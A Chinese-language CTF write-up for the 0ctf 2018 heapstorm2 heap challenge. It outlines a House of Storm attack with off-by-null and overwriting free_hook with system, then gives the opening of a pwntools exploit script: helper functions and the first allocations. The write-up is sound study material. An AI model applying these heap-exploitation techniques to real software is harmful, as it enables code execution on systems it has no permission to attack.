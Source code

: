 ###  思路
题目保护全开，我们想到的是把free_hook改为system地址，而我们首先得泄露出libc基地址，就必须利用show函数，要想利用show函数，就必须修改第3个随机数和第4个随机数的值，使它们异或后为0x13377331，随机数是在0x13370800处，我们就想到要将chunk分配到0x13370800处，程序允许我们分配最大0x1000大小的chunk，可以使用House of storm来将chunk分配到0x13370800处，这样我们不仅控制了四个随机数，还控制了chunk的全局数组

### 过程
先把前面的东西写好

	#coding:utf-8
	from pwn import *
	context(endian='little',os='linux',arch='amd64',log_level='debug')
	sh = process('./0ctf_2018_heapstorm2')
	libc = ELF('./libc-2.23.so')
	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim,data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim,data)
	r       = lambda num=4096           :sh.recv(num)
	rl      = lambda num=4096           :sh.recvline(num)
	ru      = lambda delims   :sh.recvuntil(delims )
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	def dbg():
        gdb.attach(sh)
        pause()
	def add(size):
	    sla('Command: ','1')
	    sla('Size: ',str(size))  # 12<size<0x1000
	
	
	def edit(idx,content):
	    sla('Command: ','2')
	    sla('Index: ',str(idx))
	    sla('Size: ',str(len(content)))
	    sa('Content: ',content)
	
	
	
	def free(idx):
	    sla('Command: ','3')
	    sla('Index: ',str(idx))
	
	
	def show(idx):
	    sla('Command: ','4')
	    sla('Index: ',str(idx))
	
和上一题一样，先构造一个unsortedbin和largebin，并且利用off-by-null来实现控制unsortedbin chunk的bk指针和largebin chunk的bk和bk_size指针，然后再malloc  chunk，将chunk分配到0x13370800处，这里要注意的是这道题的edit函数有点不同，会把我们输入的字节后面加上12字节再加一个'\x00'，所以我们每次edit都要少输入12字节即可实现0ff-by-null。

	#---------------布置chunk-------------------------#
	add(0x18)#0	   
	add(0x508)#1
	add(0x18)#2
